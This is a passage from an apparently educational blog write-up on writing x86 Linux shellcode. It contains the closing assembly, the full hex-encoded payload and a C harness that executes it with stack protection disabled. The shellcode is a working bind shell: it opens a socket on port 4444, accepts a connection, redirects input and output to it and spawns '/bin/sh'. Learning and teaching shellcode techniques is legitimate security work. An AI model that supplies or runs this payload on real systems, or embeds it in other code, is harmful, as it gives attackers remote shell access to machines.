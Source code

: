 	jns dup2

	; Executing shell
	;
	; int execve(const char *filename, char *const argv[], char *const envp[]);
	; execve() is defined as #define __NR_execve 11 on /usr/include/i386-linux-gnu/asm/unistd_32.h

	xor eax, eax
	push eax	; The NULL byte
	push 0x68732f2f ; "sh//". The second '\' is used to align our command into the stack
	push 0x6e69622f ; "nib/"
	mov ebx, esp	; EBX now points to "/bin//sh"

	xor ecx, ecx
	xor edx, edx
	mov al, 0xB	; 11 in decimal
	int 0x80


{% endhighlight %}

After having compiled the assembler source file with compile.sh script shell, I used scdump.sh script to dump the shellcode.

{%highlight sh %}
"\x31\xc0\x89\xc3\x89\xc1\x89\xc2\x66\xb8\x67\x01\xb3\x02\xb1\x01\xcd\x80\x89\xc3\x31\xc0\x66\xb8\x69\x01\x31\xc9\x51\x66\x68\x11\x5c\x66\x6a\x02\x89\xe1\xb2\x10\xcd\x80\x31\xc9\x31\xc0\x66\xb8\x6b\x01\xcd\x80\x31\xc0\x66\xb8\x6c\x01\x51\x89\xce\x89\xe1\x89\xe2\xcd\x80\x89\xc3\x31\xc9\xb1\x02\x31\xc0\xb0\x3f\xcd\x80\x49\x79\xf9\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80";
{%endhighlight %}

I added this shellcode into a C program, trying to execute it in order to check the payload is correct.

{%highlight c%}
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc0\x89\xc3\x89\xc1\x89\xc2\x66\xb8\x67\x01\xb3\x02\xb1\x01\xcd\x80\x89\xc3\x31\xc0\x66\xb8\x69\x01\x31\xc9\x51\x66\x68\x11\x5c\x66\x6a\x02\x89\xe1\xb2\x10\xcd\x80\x31\xc9\x31\xc0\x66\xb8\x6b\x01\xcd\x80\x31\xc0\x66\xb8\x6c\x01\x51\x89\xce\x89\xe1\x89\xe2\xcd\x80\x89\xc3\x31\xc9\xb1\x02\x31\xc0\xb0\x3f\xcd\x80\x49\x79\xf9\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80";

int main(int argc, char **argv)
{
	printf("Shellcode Length:  %d\n", strlen(code));
	int (*ret)() = (int(*)())code;
	ret();
}
{%endhighlight%}

Please note that compile.sh script uses -fno-stack-protector -z execstack flags
in order to disable stack protection mechanisms in Linux Operating System.

